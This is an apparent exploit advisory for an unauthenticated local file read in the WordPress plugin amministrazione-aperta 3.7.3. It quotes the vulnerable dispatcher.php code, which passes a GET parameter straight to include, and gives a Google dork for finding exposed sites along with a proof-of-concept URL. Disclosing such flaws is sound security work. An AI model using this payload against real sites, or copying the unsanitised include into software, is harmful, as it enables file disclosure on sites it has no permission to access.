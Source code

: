 # Exploit Title: WordPress Plugin amministrazione-aperta 3.7.3 - Local File Read - Unauthenticated<
Google Dork: inurl:/wp-content/plugins/amministrazione-aperta/<br>
Date: 23-03-2022<br>
Exploit Author: Hassan Khan Yusufzai - Splint3r7<br>
Vendor Homepage: https://wordpress.org/plugins/amministrazione-aperta/<br>
Version: 3.7.3<br>
Tested on: Firefox<br>
<br>
Vulnerable File: dispatcher.php<br>
<br>
Vulnerable Code:<br>

```
if ( isset($_GET['open']) ) {
    include(ABSPATH . 'wp-content/plugins/'.$_GET['open']);
} else {
    echo '
        <div id="welcome-panel" class="welcome-panel"
style="padding-bottom: 20px;">
                <div class="welcome-panel-column-container">';

    include_once( ABSPATH . WPINC . '/feed.php' );
```

Proof of Concept:<br>

localhost/wp-content/plugins/amministrazione-aperta/wpgov/dispatcher.php?open=[LFI]